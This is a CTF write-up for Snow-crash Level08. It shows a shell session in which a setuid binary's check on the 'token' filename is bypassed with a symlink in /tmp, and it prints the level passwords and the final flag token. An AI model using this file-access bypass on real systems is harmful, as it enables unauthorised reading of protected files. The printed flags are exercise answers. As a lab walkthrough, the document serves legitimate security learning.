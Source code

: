 ```yaml
---
title:  "Snow-crash Level08"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: cyber-security
---
```


#### 1. The password of `Level08` is the token that got from `Level07`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level08 with the password we got from Level07 and try to put the command `ls`. We can see the files `Level08` and `token`. and try to `cat` and `execute`.

```bash
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

We can see `cat: token: Permission denied` and `execute: ./level08 [file to read]`.

#### 3 . then, try to ltrace

```bash
level08@SnowCrash:~$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Same for the ltrace command, we need a another file to be read.

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

#### 4. So, since we don't have any access, let's create the `symbolic link` as we did in previous exercises.

```bash
level08@SnowCrash:~$ pwd
/home/user/level08
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/level08flag
level08@SnowCrash:~$ ./level08 /tmp/level08flag
quif5eloekouj29ke0vouxean
```

#### 5. So, we found our password! Let's put our password into flag08 for level09.

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

#### 6. We got a toekn for level 09. 
```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```